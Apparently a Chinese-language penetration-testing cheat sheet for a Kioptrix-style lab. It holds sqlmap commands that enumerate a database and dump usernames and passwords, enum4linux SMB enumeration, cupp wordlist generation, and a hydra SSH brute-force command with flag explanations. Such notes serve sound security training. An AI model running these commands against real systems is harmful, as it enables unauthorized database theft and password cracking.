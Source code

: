```bash
#探测单个URL
sudo sqlmap -u 'http://kioptrix3.com/gallery/gallery.php?id=1' --banner
#查看数据库
sudo sqlmap -u 'http://kioptrix3.com/gallery/gallery.php?id=1' --dbs
#查看某个数据库的表
sudo sqlmap -u 'http://kioptrix3.com/gallery/gallery.php?id=1' -D 'gallery' --tables
#查看字段
sudo sqlmap -u 'http://kioptrix3.com/gallery/gallery.php?id=1' -D 'gallery' -T 'dev_accounts' --columns
#查看数据
sudo sqlmap -u 'http://kioptrix3.com/gallery/gallery.php?id=1' -D 'gallery' -T 'dev_accounts' -C 'username,password' --dump
```

# smb

## enum4linux

```bash
enum4linux -S 192.168.88.30
```

## smbmap

```

```



# netexec

# 字典生成

## cupp

Cupp是一个基于Python编写的交互式密码字典生成工具，特别适合结合社会工程学使用，可以根据目标个体的个人信息生成高度个性化的密码字典，以提高密码破解的准确率

```bash
cupp -i

```

# 爆破密码

## hydra

```bash
hydra -l admin -P passwd.txt ssh://192.168.88.39 -f -e nsr

#参数详解：
  -l/-L:指定单个用户名或者用户名列表的文件进行破解
  -p/-P：指定单个密码或者密码列表的文件尝试破解
  -x：自定义密码，如“-x 8:16:abcdefghijklmnopqrstuvwxyz”表示生成8到16位的密码，只包含小写字母。
  -C：使用冒号分隔的用户名和密码对，例如 user:pass。
  -s：指定服务的端口号。
  -f：找到第一对有效的用户名和密码后停止破解。
  -F: 找到第一对有效的用户名和密码后继续破解。
  -R：从上次进度继续破解。
  -e nsr：指定破解时的额外选项
```